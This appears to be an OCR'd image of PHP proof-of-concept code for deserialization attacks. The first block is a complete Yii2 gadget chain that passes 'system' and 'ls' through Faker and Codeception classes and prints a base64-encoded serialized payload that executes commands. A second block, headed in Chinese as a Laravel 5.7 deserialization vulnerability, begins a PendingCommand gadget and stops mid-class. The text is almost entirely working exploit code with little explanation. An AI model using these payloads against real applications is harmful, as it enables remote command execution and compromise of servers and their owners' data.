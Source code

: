 ```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'ls';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

// poc2
namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess()));
}
?>

```

laravel5.7反序列化漏洞

```
<?php
namespace Illuminate\Foundation\Testing{
    class PendingCommand{
        protected $command;
        protected $parameters;
        protected $app;
        public $test;

        public function __construct($command, $parameters,$class,$app)
        {
            $this->command = $command;
            $this->parameters = $parameters;
            $this->test=$class;
            $this->app=$app;
        }
    }
```